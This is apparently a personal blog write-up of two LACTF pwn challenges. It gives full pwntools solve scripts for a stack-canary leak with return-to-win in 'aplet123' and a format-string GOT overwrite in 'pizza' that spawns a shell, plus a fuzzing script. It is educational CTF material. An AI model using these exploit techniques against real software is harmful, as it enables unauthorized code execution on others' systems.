





This past weekend I played LACTF with my team, b01lers. The CTF was a ton of fun, kudos to the organizers and all challenge authors, UCLA and PBR always put on a great CTF. We were also fortunate enough to place 23rd overall, so big ups to the rest of my team for all the hard work they put in. I mainly focused on the pwn category (as per usual) and solved `aplet123` and `pizza`. What follows are my ramblings for the aforementioned challenges, enjoy :) 

# aplet123 | pwn | 251 Solves
To start, we are given the source of the challenge, `aplet123.c`, the challenge executable, `aplet123`, and a Dockerfile. Both challenges I solved in this CTF included source, which left my empty ghidra workspace feeling especially lonely. Nonetheless, when we crack the source open we are greeted by some standard header files, and whoah whats that? A `print_flag()` function?? Well I guess we know what were trying to call. Moving further down there is an array of responses which I'll assume are printed out to the user upon further interaction with the program. 

Now we are at the main function which starts by calling `setbuf` to help with buffering on the remote server, `srand` with `time(NULL)` as the seed so that should be trivial to bypass if needed. There is then a 64 character input buffer (more on that later) and a call to `puts`. Entering the main `while` loop, which is the meat and potatoes of this whole program, user input is taken with `gets()`... so that should be fun. We then arrive at an if statement, the first arm of which checks our input to see if it contains the string `"i'm"` via `strstr()`. `strstr()` will returns a pointer to the position in our input that contains `"i'm"`. If our input does contain `"i'm"`, then the content at the the index of `"i'm"` within our input buffer + 4 bytes is printed out. The second arm checks our input buffer to see if it has the string `"please give me the flag"` after which the user is trolled because of course we don't get help. The third arm checks if we sent in `"bye"`, and if we did the program breaks out of the loop and returns. Finally, if we enter something random, we get one of the many words in the afore mentioned array printed out to us. Below is the source, with many of the options in the array and the header files omitted for brevity. 

```c
void print_flag(void) {
  char flag[256];
  FILE *flag_file = fopen("flag.txt", "r");
  fgets(flag, sizeof flag, flag_file);
  puts(flag);
}

const char *const responses[] = {"L",
                                 "amongus",
                                 "cope",
                                 "I use arch btw"};
int main(void) {
  setbuf(stdout, NULL);
  srand(time(NULL));
  char input[64];
  puts("hello");
  while (1) {
    gets(input);
    char *s = strstr(input, "i'm");
    if (s) {
      printf("hi %s, i'm aplet123\n", s + 4);
    } else if (strcmp(input, "please give me the flag") == 0) {
      puts("i'll consider it");
      sleep(5);
      puts("no");
    } else if (strcmp(input, "bye") == 0) {
      puts("bye");
      break;
    } else {
      puts(responses[rand() % (sizeof responses / sizeof responses[0])]);
    }
  }
}
```
Now that we've discussed functionality, lets talk about finding a vulnerability. We know for sure that `gets()` will allow us a buffer overflow, however there is just one issue; a quick run of `checksec` tells us there is a canary. Any attempt to clobber the instruction pointer and redirect execution will be thwarted. 



We'll need a way to leak the canary if we want to solve this challenge. Luckily, one such way has presented itself in the form of the first `printf`. As stated before, if
our input contains the string `"i'm"` then the data at that index + 4 bytes is printed out. We can abuse this by overflowing right up until the canary and terminating our overflow with the string `"i'm"`. That way `strstr` will identify the index of the `"i'm"` string which will be 3 bytes before the canary. This can be seen within gdb below. 



As seen above, the index of `"i'm"` is 3 bytes before the canary and the fourth byte would be the first byte of the canary which is always a null byte. So, we can abuse the `printf` to print out the entire canary, minus the null byte! It took some debugging, but we found that 69 characters of junk are needed plus the `"i'm"` string at the end to achieve the leak. Now that we've got our leak, all thats left is to parse it and write the exploit. Our solve script so far can be seen below. 

```python
from pwn import *
elf = context.binary = ELF("aplet123")
context.terminal = ['tmux', 'split-window', '-h']
script = '''
init-pwndbg
break *0x00000000004012b8
'''

p = elf.process()
gdb.attach(p, script)
offset = 69
leak_canary = flat([
    'a' * offset,
    "i'm"
])

p.sendline(leak_canary)
print(p.recvuntil(b'hi'))
recv = p.recv()
recv = recv.split(b',')[0].lstrip(b' ').rstrip(b'\x01')
canary =  int.from_bytes(recv, byteorder='little')
canary = hex(canary) + '00'
canary = int(canary, 16)
print(recv)
print(f'Canary (int) {canary}, (hex) {hex(canary)}')
```
In the above script, we set up some basic pwntools functionality and setup some simple gdbscript to start debugging. Then we pass in our data to abuse the `printf` and then receive and process our leak. We also need to remember to account for the null byte in the canary! From here, our exploit should be simple.

All we need to do is pass in junk up to the canary, which we know is 72 bytes (remember, we needed 69 bytes of junk plus 3 bytes for the "i'm" string), our canary we leaked, 8 bytes of junk for `rbp`, and then the address of our print_flag function. This can all be achieved pretty easily with pwntools, as seen below. 

```python
payload = flat([
    'a' * 72,
    canary,
    b'a' * 8,
    elf.symbols['print_flag']
])
p.sendline(payload)
p.sendline(b'bye')

p.interactive()
# lactf{so_untrue_ei2p1wfwh9np2gg6}
```
And just for fun (and because its always super cool) we can see our payload laid out on the stack within gdb before the main function cleans up the stack and returns. 



Finally, after we construct the aforementioned payload, send it in, and then send in the string "bye" to get the program to break out of the main loop and return, we shall have our flag. We will receive said flag in interactive mode. I had fun solving this challenge, on to the next one! 

# pizza | pwn | 105 solves

This challenge doled out similar source material; a compiled binary (`pizza`), source code (`pizza.c`), and a Dockerfile. 

Starting to look at the source code, we can start to pick out some of its notable features. Starting with an array of toppings and then an infinite  `while` loop containing the main program logic. Within this loop it looks like the available toppings are being printed out as a menu of sorts, and we can input a choice of an existing topping or a custom topping. It also appears we can enter in a maximum of three toppings. And once our toppings are entered, they are printed back out at using a call to `printf` with no format specifier... how scandalous. After our topping choices are printed back to us we have an option to start all over again, from viewing the menu to entering toppings, etc etc. I have included the source code below so you can have a peek if you so desire. 

```c
const char *available_toppings[] = {"pepperoni", "cheese","olives" "pineapple","apple", "banana","grapefruit", "kubernetes", "pesto","salmon", "chopsticks", "golf balls"};

const int num_available_toppings =
    sizeof(available_toppings) / sizeof(available_toppings[0]);

int main(void) {
  setbuf(stdout, NULL);
  printf("Welcome to kaiphait's pizza shop!\n");
  while (1) {
    printf("Which toppings would you like on your pizza?\n");
    for (int i = 0; i < num_available_toppings; ++i) {
      printf("%d. %s\n", i, available_toppings[i]);
    }
    printf("%d. custom\n", num_available_toppings);
    char toppings[3][100];
    for (int i = 0; i < 3; ++i) {
      printf("> ");
      int choice;
      scanf("%d", &choice);
      if (choice < 0 || choice > num_available_toppings) {
        printf("Invalid topping");
        return 1;
      }
      if (choice == num_available_toppings) {
        printf("Enter custom topping: ");
        scanf(" %99[^\n]", toppings[i]);
      } else {
        strcpy(toppings[i], available_toppings[choice]);
      }
    }
    printf("Here are the toppings that you chose:\n");
    for (int i = 0; i < 3; ++i) {
      printf(toppings[i]);
      printf("\n");
    }
    printf("Your pizza will be ready soon.\n");
    printf("Order another pizza? (y/n): ");
    char c;
    scanf(" %c", &c);
    if (c != 'y') {
      break;
    }
  }
}
```
So, where to go from here? Well as I aluded to earlier, we will be leveraging the vulnerability that arises when input we control is printed out using `printf` with no format specifier. 

Why is this bad? Well, `printf` is a variadic function. That means that it can accept a varying number of arguments. For example, it could simple print a string or some other data with it and use a format specifier. However, if user controller data is passed in to `printf` without a format specifier, it allows a potentially malicious user to supply a format specifier of their own. Perhaps `%p` which could be used to leak data off the stack or even more fun, `%n` which allows one to write data. So thinking back to our program, we will have to leverage our ability to make custom toppings to abuse the printf vulnerability present. 

But what might we need to leak and where might we need to write? Complicated questions with surprisingly easy answers. 

Lets take a look at what `checksec` has to say about our binary. 



Notably, it looks like PIE is enabled, so anything our binary leaks will be randomized. We've also got Partial RELRO, so the global offset table is writeable... that will come in handy later. For now, lets take stock of what we need to do. No `win` function, so we'll likely need to leverage something in libc which will require a libc leak to defeat ASLR. With Partial RELRO and a `printf` vulnerability that allows us to write anywhere we want, I'm thinking we'll do a GOT overwrite; this involves overwriting an entry in the global offset table, like the entry for `printf`, to something like `system` so that we can pop a shell. This means that whenever `printf` is called, it'll actually call system and since there is an instance where we control the arguments to `printf`, we could call something like `system("/bin/sh")`. To know the location of something with the GOT we'll need a binary leak to defeat PIE, so add that to the list. 

That was a lot, but TLDR is we'll need to do 3 things;
1. Get leaks to defeat PIE within the binary and ASLR within libc
2. Perform the GOT overwrite
3. Pass in "/bin/sh" and pop a shell

Let's grab our leaks with our first round of 3 topping selections and then we'll perform the write with another round. To find some useful addresses, GDB is gonna be our best friend. Breaking right after the vulnerable call to `printf` allows us to inspect the stack to see what possible options we have to leak from. 

This was a bit challenging at first, there was a lot of garbage laying around on the stack. To find where exactly I was leaking from, I simply leaked from several different places using the `%<num>$p` notation. This allowed me to specify certain stack indexes and read the data at that location. I did this several times to get my bearings. The stack layout after the first call to `printf` in that vulnerable loop is below. 



You'll notice that we have some things that satisfy our requirements. Notably, the address of `main` and the address of `libc_start_main + 133`. By debugging (gdb.attach() is your best friend) we can see that the address of `main` can be found at the 49th offset and can be used by specifying this format string: `%49$p`. And then waayyy at the bottom, the last element we can see, we've got `libc_start_main + 133` which we can use for our libc leak and this can be leaked using `%67$p` as it is at the 67th offset. And that should do it for our leaks!

But lets digress a bit and talk about libc. In order to exploit this, we'll need to know what version of system to call on remote and thus what libc version the remote binary is running. Thankfully, we were provided with a docker container so we know what image the remote binary is running in. In this case, our dockerfile looks like the following: 

```dockerfile
FROM pwn.red/jail
COPY --from=debian@sha256:36a9d3bcaaec706e27b973bb303018002633fd3be7c2ac367d174bafce52e84e / /srv
COPY pizza /srv/app/run
COPY flag.txt /srv/app/flag.txt
RUN chmod 755 /srv/app/run
```
To pull the libc, we can build that debian image, exec into it, and pull the libc. That is what sane people would do. Old me built the image, used `docker save` to extract the layers, and then went searching for anything resembling a libc. I managed to find one too, only it was the wrong one and it took me about an hour of troubleshooting to figure out why I couldn't calculate the base addresses properly on remote. Turns out that I pulled a libc with the designation `2.36-9` and the proper libc from that debian image was a special debian one, also version `2.36`. On an unrelated note, that new libc didn't play nice with pwninit and would cause my newly patched binary to immediately segfault! Yay! Thankfully the wrong version, `2.36-9` could be used and the symbols were the same, just the offsets were different. I used that version for local debugging and then when I went to exploit on remote I used the proper debian one. 

Digression over, lets look at our solve script so far. 

```python
from pwn import *
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload

elf = context.binary = ELF("pizza_patched")
libc = ELF('libc-remote.so.6')
context.terminal = ['tmux', 'split-window', '-h']

# libc_start_call_main + 128 at 47
# main @ 49
# __libc_start_main + 128 @ 67
# fmtstr offset at 31
p = elf.process()
#p = remote("chall.lac.tf", 31134)
script = '''
init-pwndbg
break *(main + 456)
'''
gdb.attach(p, script)

p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', "%67$p")
#print(p.recvline())

p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', b'%49$p')

p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', b'aaaaaaaa%31$p')

p.recvline()

libc_start_main = p.recvline()
libc_start_main = int(libc_start_main.strip(b'\n').decode(), 16) - 133

main = p.recvline()
main = int(main.strip(b'\n').decode(), 16)
main_offset = 0x0000000000001189
elf.address = main - main_offset
print(p.recvline())
print(hex(elf.address))

libc.address = libc_start_main - libc.symbols['__libc_start_main']
print(hex(libc.address))

p.sendline(b'y')
```

We import some basic libraries and set up our environment, specifying our ELF and our libc to be indexed by pwntools. We then send in our custom toppings and parse the output for each of our leaks; one for the `main` function and one for `libc_start_main + 133`. Then we can calculate the base addresses of both the binary and libc using our leaks and offsets we find. Finally, we send in a `y` to start the program over again to continue our exploit. 

Now on to crafting our format string payload. Pwntools, in its infinite wizardry, has the ability to generate format string payloads for us using the `fmtstr_payload` function so this is what I will use to craft the exploit. I'll need the offset of the format string (which we'll have to find) and then a dictionary, where the keys are the address where we want to write data to and then value is the data we want to write there. In this case we want to write to the location of `printf` in the GOT and we want to write the address of `system`. 

To find the format string offset means to find the point where the stack index we leak will print out the input we send in. So if we send something like `aaaaaaaa%<num>$p`, where num is a stack index, our leak should look like `0x6161616161616161`. It turns out that order matters when finding this offset. I.e. when trying to find this using the third available topping option vs. the first, it changes. Before when using the third available one I found the offset to be 31. Now, since I'm doing it on the second round and using the first topping option to send this payload, it'll be different. So, I used a simple script to fuzz a bunch of different offsets. This script was *heavily* inspired by one used by the Youtuber `cryptocat` in one of his videos. Basically it iterated through stack offsets from 0-100 and passed in `aaaaaaa%<i>%p` where `i` was the number of the current iteration. It started the program, sent this in as the first topping option, sent in random options for the others, printed out the input, then started over with a new thread of the program. I'll include the script at the bottom, but I was able to find that the offset I'd need was 6. So, with this we can look at crafting our payload. 

```python
got_printf = elf.got.printf
writes = {got_printf: libc.symbols['system']}
payload = fmtstr_payload(6, writes, write_size='byte')
```
Well that was fast. With three lines we can generate a format string payload that will write the address of system in place of `printf` in the GOT. But, as Ace Ventura might say, "Wait, there is just one more thing!". As seen above I specified the `write_size` as byte. This would cause a large format string payload to be generated, often too large for the max length 99 that we are given as input via `scanf`. I realized (took me longer than it should have) that this was the reason my exploit wasn't working and I sought ways to make it smaller. This lead me down a rabbit hole for sometime, and when I was debugging my exploit, it magically worked all of the sudden! And it gave me quite a shock! Apparently, for some reason that eludes me (I suspect its down to the addresses we're passing in as "writes"), the above payload I generated is non deterministic. And so I got lucky once with a shorter than 99 length as it is typically around 120 chars. So i tried this about 15 times (lol) on remote and it worked, I popped a shell! 

Fast forward to the Tuesday after the CTF had ended, I was watching SloppyJoePirates' video on the challenge and I realized that you could just change the `write_size` from `byte` to `short` and it would have worked every time and had a length of about 64. Well, ya live and you learn. 

```python
p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', payload)

p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', b'/bin/sh')

p.sendlineafter(b'> ', b'0')
p.interactive()
```
The final pieces of the script can be seen above; we send in the payload as the first topping, then we send in "/bin/sh" so that the next time `printf`, now `system`, is called, that will be its argument and we will pop a shell. Then we specify the topping as pepperoni with "0", obviously. Another challenge that I enjoyed solving!! Full solve script below. 

```python
from pwn import *
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload

elf = context.binary = ELF("pizza_patched")
libc = ELF('libc-remote.so.6')
context.terminal = ['tmux', 'split-window', '-h']

# p = elf.process()
p = remote("chall.lac.tf", 31134)
script = '''
init-pwndbg
break *(main + 456)
'''
#db.attach(p, script)

p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', "%67$p")
#print(p.recvline())

p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', b'%49$p')

p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', b'aaaaaaaa%31$p')

p.recvline()

libc_start_main = p.recvline()
libc_start_main = int(libc_start_main.strip(b'\n').decode(), 16) - 133

main = p.recvline()
main = int(main.strip(b'\n').decode(), 16)
main_offset = 0x0000000000001189
elf.address = main - main_offset
print(p.recvline())
print(hex(elf.address))

libc.address = libc_start_main - libc.symbols['__libc_start_main']
print(hex(libc.address))

p.sendline(b'y')

got_printf = elf.got.printf
writes = {got_printf: libc.symbols['system']}
payload = fmtstr_payload(6, writes, write_size='short')

p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', payload)
p.sendlineafter(b'> ', b'12')
p.sendlineafter(b'topping: ', b'/bin/sh')
p.sendlineafter(b'> ', b'0')
p.interactive()

# lactf{golf_balls_taste_great_2tscx63xm3ndvycw}
```
And, as promised, the `fuzz.py` script I made. 

```python
from pwn import *
elf = context.binary = ELF("pizza_patched")
for i in range(100):
    try:
        p = elf.process()
        p.sendlineafter(b'> ', b'12')
        p.sendlineafter(b'topping: ', 'aaaaaaaa%{}$p'.format(i))

        p.sendlineafter(b'> ', b'12')
        p.sendlineafter(b'topping: ', b'/bin/sh')

        p.sendlineafter(b'> ', b'12')
        p.sendlineafter(b'topping: ', b'0')
        p.recvline()
        print(i)
        print(p.recvline())
        print(p.recvline())
        print(p.recvline())
        p.sendline(b'y')
        p.close()
    except EOFError:
        pass
```

One final kudos to the folks that put on LACTF and one more massive shout out to the best CTF team anyone could ask for. 